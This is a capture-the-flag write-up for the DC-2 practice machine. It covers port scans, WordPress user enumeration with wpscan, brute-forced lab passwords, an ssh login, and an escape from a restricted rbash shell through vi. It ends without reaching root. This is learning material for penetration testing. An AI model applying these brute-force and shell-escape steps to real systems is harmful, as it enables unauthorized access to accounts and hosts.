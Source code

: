 # DC-2
Machine: [DC-2](https://portal.offensive-security.com/labs/practice)\
Difficulty: Easy


## Enumeration
What ports are open? 
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


### Credentials discovered (if any)
Found the thre users on the wordpress site: admin, jerry, tom.

tom/parturient
jerry/adipiscing


```
[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jerry
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://dc-2/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tom
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

### Ports Info
#### Http 80
![Results!](screenshots/1.png)


Output from wpscan :
```
Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://dc-2/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://dc-2/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.7.10 identified (Insecure, released on 2018-04-03).
 | Found By: Rss Generator (Passive Detection)
 |  - http://dc-2/index.php/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>
 |  - http://dc-2/index.php/comments/feed/, <generator>https://wordpress.org/?v=4.7.10</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://dc-2/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://dc-2/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.1
 | Style URL: http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://dc-2/wp-content/themes/twentyseventeen/style.css?ver=4.7.10, Match: 'Version: 1.2'

[+] Enumerating Most Popular Plugins (via Passive Methods)

[i] No plugins Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Apr  6 21:45:44 2023
[+] Requests Done: 32
[+] Cached Requests: 5
[+] Data Sent: 7.189 KB
[+] Data Received: 285.095 KB
[+] Memory used: 236.805 MB
[+] Elapsed time: 00:00:07
                                         
```


I tried to brute for the passwords using wpscan, but after 30+ minutes, I did not have a single hit. Next, I tried to use hydra to try and use the names found to log in via ssh but I did not have any success.  Going back to the webpage, I noticed there is a message under the Flag page that leaves an interesting note. From there, I was able to use a different wordlist and rerun by wpscan which resulted in finding credentials. 
![Results!](screenshots/2.png)

![Results!](screenshots/3.png)

![Results!](screenshots/4.png)

#### SSH 7744
This version is not vulnerable. However, this might be leveraged if we find user credentials via other means of enumeration. 

https://www.exploit-db.com/exploits/17465

Was able to login with creds found from wpscan. Could run many commands when logged in as tom. I tried to change from rbash to a normal shell but that did not work.
```
ssh tom@192.168.125.194 -p 7744 -t "/bin/sh"

```




## Exploit

## Local/User Flag
I could not run any commands due to rbash, but I did discover that <pre>vi</pre> can be run. We can leverage the vi tool to create a new shell. This is will get rid of the rbash.
After trial and error and some research, I found out I was doing it incorrectly. 

1. ```vi```
2. :set shell=/bin/bash
3. :shell


Using the ``vi``command line tool I was able to view the local.txt in /home/tom. 
![Results!](screenshots/5.png)



## Root Flag
I tried my normal manual privilege escalation techniques, but I did not have success. Then I revisited the flag file for tom to get a hint, and then I tried to ```su``` to jerry based on what I found.  I believe the machine is messed up because I could not run any normal commands after changing the rbash shell. I could use the ```cd``` command, but the other commands like ```cat``` or ```su``` still did not work.  
